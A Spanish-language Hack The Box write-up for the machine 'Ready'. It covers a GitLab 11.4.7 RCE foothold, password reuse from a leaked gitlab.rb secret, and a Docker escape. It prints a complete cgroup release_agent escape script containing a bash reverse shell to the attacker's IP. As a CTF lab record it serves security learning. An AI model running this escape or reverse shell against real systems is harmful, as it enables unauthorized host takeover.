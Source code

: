 ```yaml
---
layout: single
title: Ready - Hack The Box
excerpt: "Resolución de la máquina *Ready* de Hack The Box, una máquina Linux de dificultad media según la plataforma en la cual nos aprovechamos de una vulnerabilidad en una versión antigua de Gitlab para obtener el acceso inicial, para posteriormente elevar privilegios a root dentro de un contenedor docker y finalmente escapar del contenedor y obtener la shell de root en la máquina."
date: 2021-05-15
classes: wide
header:
  teaser: /assets/images/Ready-Hackthebox/ready.png
  teaser_home_page: true
categories:
  - HackTheBox
tags:
  - Web Exploiting
  - Privilege Escalation
  - Pentesting
  - Linux
---
```


![](/assets/images/Ready-Hackthebox/ready.png)

Resolución de la máquina *Ready* de Hack The Box, una máquina Linux de dificultad media según la plataforma en la cual nos aprovechamos de una vulnerabilidad en una versión antigua de Gitlab para obtener el acceso inicial,     para posteriormente elevar privilegios a root dentro de un contenedor docker y finalmente escapar del contenedor y obtener la shell de root en la máquina.

## Escaneo con nmap
---

```bash
> nmap -sC -sV -p22,5080 10.10.10.220 -oN targeted                                                                                                                                                              ─╯
Starting Nmap 7.80 ( https://nmap.org ) at 2021-04-23 16:48 CEST
Nmap scan report for 10.10.10.220
Host is up (0.32s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
5080/tcp open  http    nginx
| http-robots.txt: 53 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile
| /dashboard /projects/new /groups/new /groups/*/edit /users /help
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.10.10.220:5080/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.08 seconds
```

Vemos que hay un Gitlab en le puerto 5080.

![](/assets/images/Ready-Hackthebox/gitlab.png)

Me registro con un usuario (ximo:ximo1234) y veo que la version es 11.4.7

![](/assets/images/Ready-Hackthebox/version.png)

Busco por gitlab 11.4.7 exploit github y encuentro un exploit aquí:

[https://github.com/dotPY-hax/gitlab_RCE](https://github.com/dotPY-hax/gitlab_RCE)

Lo ejecuto y obtengo el acceso inicial.

![](/assets/images/Ready-Hackthebox/foothold.png)

## Escalada a root dentro del contenedor docker
---

Veo que hay un usuario llamado dude en el directorio home y directamente ya puedo leer el user.txt porque los permisos del fichero están configurados para que los usuarios que pertenezcan al grupo git lo puedan leer.

Sigo eumerando el sistema hasta que encuentro en /opt/backup el fichero gitlab.rb donde veo la siguiente contraseña:

gitlab_rails['smtp_password'] = "wW59U!ZKMbG9+*#h"

Pensando en la reutilización de contraseñas pruebo la contraseña con la cuenta de root y accedo como root pero eso si, del contenedor. Estamos en un contenedor docker.

![](/assets/images/Ready-Hackthebox/docker.png)

## Escalada a root
---

Siendo root dentro del contenedor busco información sobre como escapar del contenedor docker y encuentro esta página:

[https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout](https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout)

Con fdisk -l veo que a partición del sistema host es /dev/sda2

Creo un directorio en /mnt y monto la partición allí. Ya puedo leer el root.txt

```bash
mkdir -p /mnt/root
mount /dev/sda2 /mnt/root
```

Ya tengo el root.txt pero además quiero obtener una shell de root en la máquina.

Veo que hay una poc (prueba de concepto) en la misma página así que la pruebo.

![](/assets/images/Ready-Hackthebox/poc.png)

Me creo un fichero llamado poc.sh en el directorio /tmp con el contenido de la poc

```bash
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent

#For a normal PoC =================
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
#===================================
#Reverse shell
echo '#!/bin/bash' > /cmd
echo "bash -i >& /dev/tcp/10.10.14.32/9001 0>&1" >> /cmd
chmod a+x /cmd
#===================================

sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
head /output
```

Me pongo a la escucha en el puerto 9001 y ejecuto ./poc.sh y me devuelve la shell de root :)
